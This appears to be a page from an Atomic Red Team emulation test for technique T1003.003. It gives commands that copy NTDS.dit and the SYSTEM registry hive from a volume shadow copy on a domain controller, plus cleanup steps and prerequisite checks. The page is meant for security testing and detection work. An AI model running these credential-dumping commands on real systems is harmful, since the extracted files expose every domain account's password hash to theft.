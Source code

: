 #### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
copy #{vsc_name}\Windows\NTDS\NTDS.dit #{extract_path}\ntds.dit
copy #{vsc_name}\Windows\System32\config\SYSTEM #{extract_path}\VSC_SYSTEM_HIVE
reg save HKLM\SYSTEM #{extract_path}\SYSTEM_HIVE
```

#### Cleanup Commands:

```cmd
del "#{extract_path}\ntds.dit"        >nul 2> nul
del "#{extract_path}\VSC_SYSTEM_HIVE" >nul 2> nul
del "#{extract_path}\SYSTEM_HIVE"     >nul 2> nul
```

#### Dependencies: Run with `command_prompt`!

##### Description: Target must be a Domain Controller

##### Check Prereq Commands:

```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```

##### Get Prereq Commands:

```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```

##### Description: Volume shadow copy must exist

##### Check Prereq Commands:

```cmd
if not exist #{vsc_name} (exit /b 1)
```

##### Get Prereq Commands:

```cmd
echo Run "Invoke-AtomicTest T1003.003 -TestName 'Create Volume Shadow Copy with vssadmin'" to fulfill this requirement
```

##### Description: Extract path must exist

##### Check Prereq Commands:

```cmd
if not exist #{extract_path} (exit /b 1)
```

##### Get Prereq Commands:
